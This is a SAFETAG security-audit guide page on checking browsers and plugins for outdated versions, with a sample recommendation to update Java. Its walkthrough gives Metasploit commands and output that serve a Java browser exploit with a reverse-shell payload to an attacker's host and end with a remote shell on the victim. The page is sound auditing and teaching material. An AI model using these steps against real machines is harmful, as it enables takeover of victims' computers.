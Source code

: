 ```yaml
---
Approach:
- Technical
Authors:
- SAFETAG
Org_size_under:
- 25
Remote_options:
- with-support
Skills_required:
- N/A
Time_required_minutes:
- 30
title: Check Browser and Plugin Vulnerabilities
---
```


#### Check Browser and Plugin Vulnerabilities

##### Summary

Though modern browsers are better at self-updating, and the prevalence of powerful plugins like flash and java are slowly declining, it is valuable to ensure that the browsers in use have updated plugins and are themselves updated.

##### Overview

##### Materials Needed

* Metasploit

##### Considerations

##### Walkthrough

###### Outdated Java browser plugins

While the threat described below is more severe if carried out by a local attacker (as they can more readily direct the victim to a malicious Web site), it also works remotely. In fact, if a user can be tricked, by a remote attacker, into clicking on a malicious email or Web link, attacks like this represent a significant perimeter threat. By compromising the victim’s machine, they can give the attacker a local point-of-presence without requiring the attacker to crack WPA keys or gain local access in some other way.

Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious Web site:

```
$ msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
+ -- --=[ 1114 exploits - 627 auxiliary - 178 post
+ -- --=[ 307 payloads - 30 encoders - 8 nops

msf > use exploit/multi/browser/java_jre17_exec

msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp
PAYLOAD => java/shell/reverse_tcp

msf exploit(java_jre17_exec) > set LHOST 192.168.1.123
LHOST => 192.168.1.123

msf exploit(java_jre17_exec) > set SRVPORT 8081
SRVPORT => 8081

msf exploit(java_jre17_exec) > set URIPATH java_test
URIPATH => java_test

msf exploit(java_jre17_exec) > run
[*] Exploit running as background job.
```

Step 2: At this point, any local user who visits http://192.168.1.123:8081/java_test, and who is running a sufficiently out-of-date version of the Java browser plugin, stands a good chance of giving the attacker full access to his computer:

```
[*] Started reverse handler on 192.168.1.123:4444

msf exploit(java_jre17_exec) >

[*] Using URL: http://0.0.0.0:8081/java_test
[*] Local IP: http://192.168.1.123:8081/java_test
[*] Server started.

msf exploit(java_jre17_exec) >

<remote shell>
```

Figure 1: Attacker in control of the victim’s computer through a remote command shell

##### Recommendation

**Sample Recommendation for outdated Java**

One or more of the organization’s laptops were seen to be running an outdated, known-vulnerable version of the Java plugin for Internet Explorer.

This version contains a vulnerability that is easily exploitable using one of the recent Java exploit modules from the widely available Metasploit security auditing framework. These modules allow an attacker to gain complete control over the computer of a victim who visits a malicious Web site hosted anywhere on the Internet. If the attacker is inside the office LAN, they can easily trick the victim into visiting that malicious Web site without the victim even knowing it.

At least one of the organization’s computers is running an outdated Java browser plugin, and exploit code is widely-available for several critical vulnerabilities in versions older than “Java 7, update 16.” All of the organization’s Java installations should be updated to the latest version. This can be troublesome, as (unlike the Windows operating system itself) Java plugins sometimes require user input before they will install updates.
